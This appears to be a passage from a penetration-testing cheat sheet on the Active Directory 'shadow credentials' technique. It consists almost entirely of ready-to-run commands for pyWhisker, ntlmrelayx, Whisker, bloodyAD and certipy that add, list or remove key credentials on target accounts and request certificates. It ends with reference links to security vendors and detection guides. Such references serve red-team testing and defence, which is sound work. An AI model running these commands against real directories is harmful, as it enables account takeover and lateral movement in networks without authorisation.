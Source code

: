 #### pyWhisker
```bash
# List shadow credentials on target
pywhisker.py -d "FQDN_DOMAIN" -u "USER" -p "PASSWORD" --target "TARGET_SAMNAME" --action "list"

# Add shadow credentials to target
pywhisker.py -d "FQDN_DOMAIN" -u "USER" -p "PASSWORD" --target "TARGET_SAMNAME" --action "add"

# Remove shadow credentials from target
pywhisker.py -d "FQDN_DOMAIN" -u "USER" -p "PASSWORD" --target "TARGET_SAMNAME" --action "remove"
```

#### ntlmrelayx Integration
```bash
# Automatically add shadow credentials during NTLM relay
ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'
```

#### Whisker (Windows)
```bash
# List shadow credentials
Whisker.exe list /target:target_user /domain:domain.com /dc:dc.domain.com

# Add shadow credentials
Whisker.exe add /target:target_user /domain:domain.com /dc:dc.domain.com

# Remove shadow credentials
Whisker.exe remove /target:target_user /domain:domain.com /dc:dc.domain.com /deviceid:device-id
```

#### bloodyAD
```bash
# Add shadow credentials to target account
bloodyAD -d domain.com --host 10.10.10.10 -u user -p password add shadowCredentials target_account

# Remove shadow credentials from target account
bloodyAD -d domain.com --host 10.10.10.10 -u user -p password remove shadowCredentials target_account
```

#### certipy shadow
```bash
# Automatically add shadow credentials and request certificate
certipy shadow -dc-ip 10.10.10.10 -u user -p password -account target_account auto

```

## References

- [Tenable - Shadow Credentials Indicator of Exposure](https://www.tenable.com/indicators/ioe/ad/C-SHADOW-CREDENTIALS)
- [The Hacker Recipes - Shadow Credentials](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials)
- [Elastic Security - Potential Shadow Credentials Detection](https://www.elastic.co/guide/en/security/8.19/potential-shadow-credentials-added-to-ad-object.html)
- [I-Tracing - DACL Shadow Credentials](https://i-tracing.com/blog/dacl-shadow-credentials/)